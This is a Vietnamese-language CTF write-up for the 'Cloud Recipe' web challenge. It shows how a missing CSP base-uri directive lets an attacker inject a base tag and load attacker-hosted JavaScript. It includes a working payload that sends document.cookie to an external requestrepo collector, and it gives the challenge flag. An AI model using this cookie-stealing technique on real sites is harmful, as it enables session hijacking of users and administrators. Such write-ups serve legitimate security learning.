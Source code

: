 ```yaml
---
layout: default
title: "Cloud Recipe"
date: 2025-04-03 16:50:38 +0700
tags: [CTF, Kind4SUS CTF]
---
```

# Cloud Recipe - web
> Author: tan3ora

- Tên: Cloud Recipe
- Description: Cloud Recipe is the first website entirely dedicated to keeping your secret recipes safe! Even Nuka Cola trusts us!
- Link: http://chall.ctf.k1nd4sus.it:31000/
- *Có source code*
---
## Phân tích
Trang web có chức năng tạo recipe để lưu trữ và có thể gửi cho admin.
Mục tiêu là bypass được CSP để khai thác XSS lấy cookie của admin.

Check CSP ta có ![](https://)![](http://note.bksec.vn/pad/uploads/521d10ae-0bfa-4e9a-bb78-a16bf4ce94d9.png)

Ở đây có thể nghĩ đến 2 hướng : tập trung vào `default-src` hoặc `base-uri`. Do trong CSP đã có `style-src`  nên với việc cần khai thác XSS,miss `default-src` cũng không ảnh hưởng nhiều lắm.

Tập trung vào hướng `base-uri`,phân tích source code đã cho,phát hiện server dùng đường dẫn tương đối để nhúng file `js` ![](https://)![](http://note.bksec.vn/pad/uploads/6b483b1a-93d3-4db8-8d1c-56d01ed6a248.png)
Từ đây có thể chèn url ta tự host qua `<base>` vào phần `<head>` để nhúng file `js` của ta  vào và chạy payload `javascript`.

## Khai thác
Dùng [requestrepo](https://requestrepo.com/) để host file payload tại `/static/js/image.js` :
```javascript=
var cookieValue = document.cookie;
fetch("https://1e5qhv69.requestrepo.com?flag=" + encodeURIComponent(cookieValue), {
    method: "GET"
})
```
![](https://)![](http://note.bksec.vn/pad/uploads/6f7f23ad-8b25-40cf-9889-8cf8f4bffb8f.png)

Chèn `base-uri` qua thẻ meta và gửi cho admin:
![](https://)![](http://note.bksec.vn/pad/uploads/31caff02-6d6d-47bf-b382-3b9aa04f9180.png)

Decode để lấy flag:
![](https://)![](http://note.bksec.vn/pad/uploads/e4f1f304-bd26-41d3-896c-6d30f4c5a09e.png)

Flag: `KSUS{0h_n0_m4_l4546n4_r3c1p3}`


